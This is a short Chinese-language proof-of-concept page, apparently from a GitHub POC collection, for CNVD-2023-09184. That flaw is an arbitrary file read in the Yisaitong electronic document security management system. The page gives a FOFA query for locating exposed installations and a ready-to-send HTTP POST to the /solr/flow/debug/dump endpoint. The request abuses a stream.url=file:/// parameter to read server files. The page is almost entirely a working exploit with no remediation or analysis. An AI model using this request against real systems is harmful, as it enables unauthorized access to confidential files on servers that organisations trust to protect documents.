 ## 亿赛通电子文档安全管理系统任意文件读取CNVD-2023-09184

亿赛通 电子文档安全管理系统 dump接口存在任意文件读取漏洞


## fofa
```
app="亿赛通电子文档安全管理系统"
```

## poc
```
POST /solr/flow/debug/dump?param=ContentStreams HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/36.0.1985.67 Safari/537.36
Connection: close
Content-Length: 36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1

stream.url=file:///C:\Program Files\
```

![ac6036a601c185421f1c8f0fa56f70ac](https://github.com/wy876/POC/assets/139549762/e1a2c88b-c5a6-4f85-8f26-94d303fc9868)
